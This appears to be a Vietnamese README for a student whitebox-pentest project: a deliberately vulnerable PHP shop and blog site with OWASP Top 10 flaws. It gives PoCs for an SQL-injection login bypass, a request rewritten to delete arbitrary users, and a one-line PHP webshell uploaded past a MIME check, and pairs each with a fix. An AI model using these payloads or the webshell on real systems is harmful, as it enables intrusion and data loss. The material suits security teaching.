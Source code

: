 # Pentest Website - OWASP Top 10  

## 1. Giới thiệu  

### Mô tả  
Đây là project về Pentest cơ bản, tập trung vào việc xây dựng một website có chứa lỗ hổng bảo mật và tiến hành khai thác, sau đó đưa ra giải pháp khắc phục.  

### Mục tiêu  
- Xây dựng website có chứa 5 lỗ hổng thuộc **OWASP Top 10 (2021)**.  
- Khai thác và kiểm thử các lỗ hổng.  
- Đề xuất giải pháp khắc phục.  
- Triển khai website trên một máy chủ thực tế (Linux, Ubuntu, Windows).  

### Cách tiếp cận  
Phương pháp kiểm thử bảo mật được sử dụng trong project này là **Whitebox Pentesting**, nghĩa là:  
- Có quyền truy cập mã nguồn và hệ thống.  
- Kiểm thử từ góc nhìn của developer.  
- Chủ động tạo và khai thác lỗ hổng trong mã nguồn.  

---

## 2. Các chức năng chính  
Website được xây dựng theo mô hình **MVC (Model-View-Controller)** và có các chức năng chính như:  
- ✅ Đăng nhập  
- ✅ Định danh, xác thực người dùng  
- ✅ Phân quyền người dùng  
- ✅ Quản lý bài viết, bình luận, hệ thống giỏ hàng và tiền tệ  
- ✅ Hỗ trợ upload file  
- ✅ Triển khai trên máy chủ  

# Giao diện Website

### 🔹 Giao diện chính

| Login | Register | Shop |
|---|---|---|
| ![Login](screenshots/login.png) | ![Register](screenshots/register.png) | ![Shop](screenshots/shop.png) |

| Cart | Checkout | Profile |
|---|---|---|
| ![Cart](screenshots/cart.png) | ![Checkout](screenshots/checkout.png) | ![Profile](screenshots/profile.png) |

---

<details>
  <summary>📸 Xem thêm ảnh giao diện phụ</summary>

  | Comment |  Blog |
  |---|---|
  | ![Comment](screenshots/comment.png) | ![Blog](screenshots/blog.png) |

</details>

---

## 3. Thống kê lỗ hổng OWASP Top 10 (2021)

| STT | Lỗ hổng | Mô tả | Vị trí | Mức độ |
|---|---|---|---|---|
| **1** | **A03:2021 - Injection (SQLi)** | SQL Injection trong truy vấn đăng nhập. | `/login.php` | 🔴 Cao |
| **2** | **A01:2021 - Broken Access Control** | Xóa user không xác thực quyền admin. | `/profile/updateEmail` | 🔴 Cao |
| **3** | **A08:2021 - Software and Data Integrity Failures (RCE)** | Upload file `.php` gây RCE. | `/profile/uploadAvatar` | 🔴 Cao |
| **4** | **A03:2021 - Injection (Stored XSS)** | Stored XSS trong bình luận blog do không lọc input. | `/blog_detail.php` | 🟠 Trung bình |
| **5** | **A05:2021 - Security Misconfiguration** | Truy cập file backup `git_old`, lộ thông tin. | `/backup/git_old` | 🟠 Trung bình |


---

## 4. Khai thác lỗ hổng  
<details>
  <summary>🛑<strong>A03:2021 - Injection (SQLi) - Bypass Đăng Nhập</strong></summary>

### 🔥 Tầm Quan Trọng Của Phát Hiện Chính
- **Mức độ**: 🔴 Cao  
- **Ảnh hưởng**: Cho phép bypass xác thực password, truy cập tài khoản nếu biết username hợp lệ.  
- **Hệ lụy**:  
  - Tấn công viên có thể đăng nhập vào tài khoản bất kỳ mà không cần mật khẩu đúng.  
  - Có thể leo thang đặc quyền nếu truy cập vào tài khoản admin.  
  - Tiềm năng khai thác sâu hơn nếu kết hợp với các kỹ thuật SQLi khác (ví dụ: UNION).  

---

### 📌 Phát Hiện Chung
- Truy vấn SQL tại **`/login.php`** không lọc đầu vào của biến `$username`.  
- Cho phép thực hiện **SQL Injection** bằng cách chèn ký tự `#` để comment bỏ điều kiện password.  
- Payload `carlos'#` (với `carlos` là username thật) bỏ qua kiểm tra password, cho phép login mà không cần mật khẩu đúng.  
- Payload `' OR 1=1 --` ` -- ` không hoạt động do xử lý lỗi trong `Database.php`.  

---

### 🛠 PoC - Bằng Chứng Khai Thác
#### 📌 1. Payload Tấn Công:
--------------------------------
```
Username: carlos'#
Password: (bất kỳ)
```
#### 🖥 2. Request Gửi Đến Server:
--------------------------------
```
POST /web_pen_v1/login/process HTTP/1.1
Host: target-site.com
Content-Type: application/x-www-form-urlencoded

username=carlos'#&password=randompassword
```
#### 🛠 3. Truy Vấn SQL Bị Thao Túng:
--------------------------------
```
SELECT * FROM users WHERE username = 'carlos'#' AND password = 'randompassword';
```

#### ✅ 4. Response Thành Công:
--------------------------------
HTTP/1.1 302 Found
Location: /home.php

#### 🚨 5. Ảnh Chụp Màn Hình:
--------------------------------
| PoC SQL Injection | Burp Suite PoC |
|---|---|
| ![SQL PoC](screenshots/sqlt1.png) | ![Burp Suite PoC](screenshots/sqlit2.png) |

###  🔧 Biện Pháp Khắc Phục Được Đề Xuất
Sử dụng Prepared Statement (PDO / MySQLi) để bind tham số:
```php
$stmt = $pdo->prepare("SELECT * FROM users WHERE username = ? AND password = ?");
$stmt->execute([$username, $password]);
$user = $stmt->fetch();
```
- Không sử dụng truy vấn SQL với chuỗi nối trực tiếp từ input người dùng.
- Bật chế độ báo lỗi và log lỗi thay vì hiển thị lỗi SQL ra ngoài.
- Bổ sung hash password bằng password_hash() trong Register.php và verify bằng password_verify() trong Login.php.
</details> 

<details>
  <summary>🛑<strong> A01:2021 - Broken Access Control - Xóa Bất Kỳ User</strong></summary>

### 🔥 Tầm Quan Trọng Của Phát Hiện Chính
- **Mức độ**: 🔴 Cao  
- **Ảnh hưởng**: Cho phép người dùng thường xóa bất kỳ tài khoản nào, kể cả admin.  
- **Hệ lụy**:  
  - Tấn công viên có thể xóa tài khoản quan trọng, gây mất dữ liệu.  
  - Nếu admin bị xóa, hệ thống có thể mất quyền quản lý.  
  - Không có kiểm tra quyền, bất kỳ user nào cũng có thể khai thác.  

---

### 📌 Phát Hiện Chung
- Trang **Profile** có chức năng cập nhật email (`updateEmail()`), nhưng **hàm xóa user (`deleteUser()`) không có kiểm tra quyền**.  
- Kẻ tấn công có thể **thay đổi request** từ `updateEmail` thành `deleteUser` để xóa bất kỳ tài khoản nào, kể cả admin.  
---

### 🛠 PoC - Bằng Chứng Khai Thác  

#### 📌 1. Đăng nhập vào hệ thống với một tài khoản bình thường.  
#### 📌 2. Chặn request bằng Intercept -> Gửi đến Repeater.  
#### 📌 3. Sửa request `/profile/updateEmail` -> /profile/deleteUser + used_id'random'.  

**Yêu cầu gốc (Request hợp lệ - cập nhật email):**
```
POST /web_pen_v1/profile/updateEmail HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 35
Origin: http://localhost
Connection: keep-alive
Referer: http://localhost/web_pen_v1/profile
Cookie: PHPSESSID=bbq2e7f3trj6afj73sq4jru0t5
Upgrade-Insecure-Requests: 1
Priority: u=0, i

csrf_token=&email=son%40testa01.com
```
#### 📌 4. Chỉnh sửa request:
-Đổi URL /profile/updateEmail thành /profile/deleteUser.
-Thêm tham số user_id với giá trị ID của nạn nhân (ví dụ: 6 là neovim).
Yêu cầu đã chỉnh sửa (Request tấn công - xóa user ID 6):
```
POST /web_pen_v1/profile/deleteUser HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 9
Origin: http://localhost
Connection: keep-alive
Referer: http://localhost/web_pen_v1/profile
Cookie: PHPSESSID=bbq2e7f3trj6afj73sq4jru0t5
Upgrade-Insecure-Requests: 1
Priority: u=0, i

user_id=6
```
#### ✅ 5. Gửi request.
- Nếu lỗ hổng tồn tại, tài khoản có id=6 sẽ bị xóa mà không cần quyền admin.
- Nếu admin bị xóa, hệ thống có thể bị vô hiệu hóa hoặc rơi vào trạng thái không thể quản lý.
- 📸 Ảnh Chụp Màn Hình (PoC Visuals)
	
| Step | Description | Images |
|---|---|---|
| **1** | *Database chứa thông tin user trước khi bị xóa.* | ![Database](screenshots/database.png) |
| **2** | *Mã nguồn có lỗ hổng trong hàm `deleteUser()` không kiểm tra quyền.* | ![Code](screenshots/a1-deleteUser.png) |
| **3** | *Chặn request cập nhật email bằng Burp Suite để thay đổi thành xóa user.* | ![Update + Capture](screenshots/a1-0.png) |
| **4** | *Payload thay đổi request từ update email sang delete user.* | ![Payload](screenshots/a1-1.png) |
| **5** | *Tài khoản đã bị xóa thành công sau khi gửi request.* | ![Result](screenshots/a1-3result.png) |



#### 🔧 Biện Pháp Khắc Phục Đề Xuất
Kiểm tra quyền admin trước khi xóa user:
```
if (!isset($_SESSION['role']) || $_SESSION['role'] !== 'admin') {
    $_SESSION['error'] = "Unauthorized access!";
    header("Location: " . URLROOT . "/profile");
    exit();
}
```
- Sử dụng CSRF token để tránh giả mạo request.
- Ghi log hoạt động quan trọng để theo dõi thao tác quản trị.
</details> 
<details>  
  <summary>🛑<strong> A08:2021 - Software and Data Integrity Failures (RCE) - Upload Webshell</strong></summary>

## 🔥 Tầm Quan Trọng Của Phát Hiện Chính  
- **Mức độ**: 🔴 Cao  
- **Ảnh hưởng**: Cho phép thực thi mã từ xa (RCE) trên server.  
- **Hệ lụy**:  
  - Kẻ tấn công có thể tải lên và thực thi mã độc.  
  - Có thể truy cập trái phép vào hệ thống file của server.  
  - Mở đường cho tấn công leo thang đặc quyền hoặc pivoting sang các hệ thống khác.  

---

## 📌 Phát Hiện Chung  
- Chức năng **Upload Avatar** tại `/profile` **không kiểm tra kỹ loại file tải lên**.  
- Ứng dụng **chỉ kiểm tra phần mở rộng (extension)**, nhưng kẻ tấn công có thể bypass bằng cách đổi **header request**.  
- Nếu file `.php` được upload thành công, kẻ tấn công có thể **thực thi lệnh trên máy chủ từ xa**.  

---

## 🛠 PoC - Bằng Chứng Khai Thác  

### 📌 1. Kiểm tra chức năng upload với file hình ảnh hợp lệ.  
- Upload một file `.png` để kiểm tra đường dẫn lưu trữ trên server.  
- Quan sát thấy file được lưu vào thư mục `/web_pen_v1/public/uploads/`.  

---

### 📌 2. Tạo Webshell với payload PHP  
Tạo file **`pls.php`** với nội dung:  

```php
<?php echo system($_GET['command']); ?>
```
### 📌 3. Upload file pls.php thông qua chức năng Upload Avatar
### 📌 4. Tìm request trong HTTP History và chỉnh sửa
- Mặc định, hệ thống có thể từ chối .php, nhưng kẻ tấn công có thể đổi header Content-Type để bypass kiểm tra MIME.
- Nếu file được upload thành công, kiểm tra đường dẫn truy cập:
http://localhost/web_pen_v1/public/uploads/pls.php
### 📌 5. Thực thi lệnh từ xa
Gửi request thực thi lệnh whoami để xác định user chạy webserver:
```
GET /web_pen_v1/public/uploads/pls.php?command=whoami HTTP/1.1
Host: localhost
````
-Response trả về:
```
nginx
apache
```
-👉 Điều này chứng minh lệnh đã được thực thi trên máy chủ.

### 🚨 6. Ảnh Chụp Màn Hình (PoC Visuals)
Step	Description	Images
1	Upload thành công file webshell pls.php.	📷
2	Intercept request upload và chỉnh sửa Content-Type để bypass kiểm tra MIME.	📷
3	Truy cập webshell qua trình duyệt và gửi lệnh whoami.	📷
4	Response hiển thị kết quả apache, chứng minh RCE thành công.	📷
### 🔧 Biện Pháp Khắc Phục Được Đề Xuất
#### ✅ 1. Kiểm tra loại file bằng MIME type thay vì chỉ kiểm tra phần mở rộng
- Sử dụng finfo_file() để kiểm tra loại file thực sự:
```
$finfo = finfo_open(FILEINFO_MIME_TYPE);
$mime_type = finfo_file($finfo, $_FILES['avatar']['tmp_name']);
finfo_close($finfo);
$allowed_types = ['image/jpeg', 'image/png', 'image/gif'];
if (!in_array($mime_type, $allowed_types)) {
    die("File type not allowed!");
}
```
#### ✅ 2. Đổi tên file khi lưu trữ để ngăn chặn thực thi
```
$newFileName = uniqid() . ".jpg";
move_uploaded_file($_FILES['avatar']['tmp_name'], "uploads/" . $newFileName);
```
#### ✅ 3. Vô hiệu hóa PHP trong thư mục uploads bằng .htaccess
-Tạo file .htaccess trong uploads/ với nội dung:
```
<FilesMatch "\.php$">
    Deny from all
</FilesMatch>
```
#### ✅ 4. Định dạng lại quyền thư mục
Đặt quyền chmod 644 cho file, chmod 755 cho thư mục uploads để tránh thực thi mã độc.

</details>
